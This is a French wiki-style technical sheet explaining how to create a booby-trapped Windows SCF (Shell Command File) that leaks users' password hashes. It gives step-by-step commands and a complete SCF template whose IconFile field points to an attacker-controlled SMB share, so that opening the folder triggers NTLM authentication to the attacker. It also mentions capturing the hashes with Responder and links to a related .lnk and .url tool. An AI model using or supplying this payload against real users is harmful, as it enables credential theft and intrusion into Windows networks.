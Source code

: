 ```yaml
---
title: Créer un fichier SCF piégé
description: Guide pour la création de fichier SCF (Shell Command File) piégé. Un fichier SCF peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.
published: true
date: 2024-10-26T09:31:10.018Z
tags: windows, fiche technique
editor: markdown
dateCreated: 2024-10-26T09:31:10.018Z
---
```


# Introduction

Guide pour la création de fichier SCF (Shell Command File) piégé. Un fichier SCF peut être utilisé par un attaquant pour récupérer les hash des utilisateurs.

> Un fichier SCF est utilisé par l'explorateur de fichier pour effectuer de nombreuses actions comme afficher le bureau ou encore se déplacer dans l'arborescence.
> {.is-info}

La base de l'exploitation repose sur le fait de définir l'icone du fichier SCF vers le serveur d'un attaquant. En cliquant sur le raccourci, l'utilisateur va essayer de s'authentifier au serveur pour récupèrer cette icône.

> Depuis Windows Server 2019, les fichiers SCF ne fonctionnent plus. Mais il est possible de passer par des fichiers .lnk malveillants pour contourner le problème.
> {.is-warning}

# Création du fichier

Créer un fichier se terminant par .scf
`New-Item monfichier.scf`
Modifier le fichier
`notepad.exe monfichier.scf`
Ajouter les lignes suivantes et changer certains champs comme souhaité:

```
[Shell]
Command=2
IconFile=\\<adresse du serveur attaquant>\<nom du partage>\<nom de l'icône>.ico
[Taskbar]
Command=ToggleDesktop
```

> Le fichier ainsi que le partage n'existent pas obligatoirement sur le serveur attaquant, il est possible d'avoir uniquement un outil comme Responder pour intercepter les hash.
> {.is-info}

A présent, le fichier est maintenant créer, il suffit d'attendre que le fichier soit cliqué pour recevoir les informations d'authentification sur notre machine attaquante.

# Voir aussi

Lnkbomb, créer des fichiers raccourcis .url malveillants
[voir la page](/Outils/Indépendant/Lnkbomb)
